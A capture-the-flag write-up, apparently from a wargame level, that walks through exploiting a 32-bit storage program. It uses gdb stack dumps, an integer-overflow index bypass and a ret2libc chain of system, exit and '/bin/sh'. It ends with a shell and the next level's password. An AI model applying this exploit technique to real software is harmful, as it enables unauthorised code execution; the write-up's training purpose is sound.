 ## Project README: Finding flag07

This programe his crating of array that can stock number. we have 464 place to do that. So when the program launch we can store read or quit.

### Analysis

So the idea we found was to write in the stack the place of EIP. So when the programs that saved EIP will exit to this adress he will jump the specific adress we gave him. So first we need to find the adress of eip then write the adress of our shellcode. But the problem is that if our eip adress is mod 3 his reserved for will.

### Progress

We first need to pick an adress that interest us. That is after our buffer in memory.

Input command: store
 Number: 8 1
 Index: 1
 Completed store command successfully
Input command: quit

Breakpoint 1, 0x080489f1 in main ()
(gdb) si
0xf7e45513 in __libc_start_main () from /lib32/libc.so.6

we can see when we are quiting the program he jump to this adress in the libc : 0xf7e45513

Now let's find it in the memory. We know that we put our value at index 1 (0 is reserved for will)
let's see by putting a break point in our store number.
```sh
(gdb) b *0x080486d5
Breakpoint 2 at 0x80486d5

0xffffd500:	0x08048add	0xffffd554	0x00000000	0xf7e2b6c0
0xffffd510:	0xffffd718	0xf7ff0a50	0x00000008	0x00000001
0xffffd520:	0x00000000	0xffffdfdc	0xffffd718	0x080488ef
0xffffd530:	0xffffd554	0x00000014	0xf7fcfac0	0xf7fdc714
0xffffd540:	0x00000098	0xffffffff	0xffffd80c	0xffffd7b8
0xffffd550:	0x00000000	0x00000000	0x00000008	0x00000000
0xffffd560:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd570:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd580:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd590:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5a0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5b0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5c0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5d0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5e0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5f0:	0x00000000	0x00000000	0x00000000	0x00000000
```

ok our 8 is at the adress 0xffffd558 now let's find the eip adress : 0xf7e45513
```sh
(gdb) x/256wx $esp
0xffffd550:	0x00000000	0x00000000	0x00000008	0x00000000
0xffffd560:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd570:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd580:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd590:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5a0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5b0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5c0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5d0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5e0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5f0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd600:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd610:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd620:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd630:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd640:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd650:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd660:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd670:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd680:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd690:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6a0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6b0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6c0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6d0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6e0:	0x00000000	0x00000001	0x726f7473	0x00000065
0xffffd6f0:	0x00000000	0x00000000	0x00000000	0x1c409700
0xffffd700:	0xf7feb620	0x00000000	0x08048a09	0xf7fceff4
0xffffd710:	0x00000000	0x00000000	0x00000000	0xf7e45513
```



ok it's at the adress 0xffffd71c.
So now we can calculate how much is it after our buffer.
114 places ok so let's check first by using the read.
Input command: read
- Index: 114
- Number at data[114] is 4158936339
- Completed read command successfully

4158936339 in hex = F7E45513
so yes exactly the adress we want to target. But we cannot change the value because 114 % 3 = 0.
So it's reserved for will. But there is something that we can do is actually doing a buffer overflow because we are not puting at the 114 place but actually at the 456 places
```C
*(unsigned int)(index * 4 + data) = number;
```

So multiplicating by 4 equal doing a bitshifting of 2 (<< 2).
And when we bit shift of 2 the number that are in the front are removed.
so for exemple 4000000000015 bit shifting of 2 equal 15.
Because an uint is 32 bit. so he will overflow and remove the 2 first number.
So let's try to find the number using the programming calc.

![programing calc screenshot](./Ressources/calc.png)

So we put one at the 32 bit. that will be removing when the * 4.
And then we put 114.
and we found this number : **1073741938**
Let's try a retToLibC.
```sh
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 (decimal = 4159090384) <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 (decimal =4159040368) <exit>
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec (Decimal = 4160264172)
```

Ok let try this :
```sh
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ cd ../level08
$ cat .pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
et voila

